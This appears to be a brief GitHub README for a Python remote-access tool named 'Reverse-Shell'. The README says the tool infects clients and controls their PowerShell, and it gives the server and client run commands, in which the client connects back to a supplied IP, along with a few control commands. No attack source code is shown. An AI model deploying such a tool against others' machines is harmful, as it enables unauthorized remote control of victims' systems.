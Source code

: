 # Reverse-Shell
Infects clients and controls their powershell with Python.
To de instalation you need has a server (any operative system) and 
execute the python script.
#### Requirements

- 🐍 Python 3.x 🐍
- 💫 Open Ports 💫

#### Installation
Linux or Windows or  MacOs

#### [Server]

```sh
python3 server.py
```
#### [Client]
```sh
pip3 install colorama
python3 client.py {ip}
```

#### Extra commands

#### [Menu]

- connect {number}

#### [Shell Commmands]

- alert {title} {message}
- exit

#### Preview

<img src="[https://i.imgur.com/dGReORh.gif](https://i.imgur.com/icFpnKA.png)"> 
